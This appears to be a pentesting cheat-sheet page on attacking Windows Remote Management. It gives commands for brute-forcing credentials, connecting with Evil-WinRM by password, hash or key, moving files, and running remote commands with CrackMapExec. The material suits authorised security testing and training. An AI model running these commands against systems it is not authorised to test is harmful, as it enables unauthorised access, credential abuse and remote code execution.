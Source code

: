 ```yaml
---
title: Windows Remote Management (WinRM) Pentesting
desc: WinRM HTTP uses port 5985, and WinRM HTTPS uses port 5986. Default port is 598, 5986.
tags: [598, 5985, 5986, CrackMapExec, Windows, WinRM]
alts: [Privilege-Escalation-Windows]
render_with_liquid: false
---
```


## Enumeration

1. **Brute Force Credentials**

    1. **Use CrackMapExec**

        ```sh
        cd crackmapexec
        poetry run crackmapexec winrm <target-ip> -d DomainName -u usernames.txt -p passwords.txt
        ```

    2. **Use Metasploit**

        ```sh
        msfconsole
        msf > use auxiliary/scanner/winrm/winrm_login
        ```

<br />

## Connect and Exploit

1. **Use Evil-WinRM**

    **[Evil-WinRM](https://github.com/Hackplayers/evil-winrm){:target="_blank"}** is a Windows Remote Management shell for pentesting.

    1. **Connect**

        ```powershell
        evil-winrm -i <target-ip> -P 5986 -u username -p password
        
        # Pass The Hash (-H)
        evil-winrm -i <target-ip> -P 5986 -u username -H 0e0363213e37b94221497260b0bcb4fc

        # PowerShell Local Path (-s)
        evil-winrm -i <target-ip> -u username -p password -s /opt/scripts

        # SSL enabled (-S)
        evil-winrm -i <target-ip> -u username -p password -S
        ```

        If you have private key and public key, you can use them for authentication.

        ```sh
        # -S: SSL
        # -k: private key
        # -c: public key
        evil-winrm -i <target-ip> -S -k private.key -c public.key
        ```

    2. **File Transfering**

        After connecting, you can use a lot of useful commands to exploit.

        ```powershell
        # Upload a local file to Windows machine
        PS> upload ./example.bat c:\\Users\Administrator\Desktop\exploit.bat

        # Download a file to local
        PS> download c:\\Users\Administrator\Desktop\example.txt ./example.txt
        ```

2. **Use CrackMapExec**

    **[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec){:target="_blank"}** is a swiss army knife for pentesting networks.  
    The official docs says that it's recommended to use it via **Poetry** which is a Python package manager.  

    First off, move to the directory in which the CrackMapExec installed and run **poetry install**.

    ```sh
    cd crackmapexec
    poetry install
    ```

    Then execute with **poetry run**.

    ```sh
    # Login and CMD execution (-x)
    poetry run crackmapexec winrm <target-ip> -d DomainName -u username -p password -x 'whoami'
    # Login and PowerShell execution (-X)
    poetry run crackmapexec winrm <target-ip> -d DomainName -u username -p password -X '$PSVersionTable'

    # Pass the Hash and CMD execution (-x)
    poetry run crackmapexec winrm <target-ip> -d DomainName -u username -H <HASH> -x 'whoami'
    # Pass the Hash and PowerShell execution (-X)
    poetry run crackmapexec winrm <target-ip> -d DomainName -u username -H <HASH> -X '$PSVersionTable'
    ```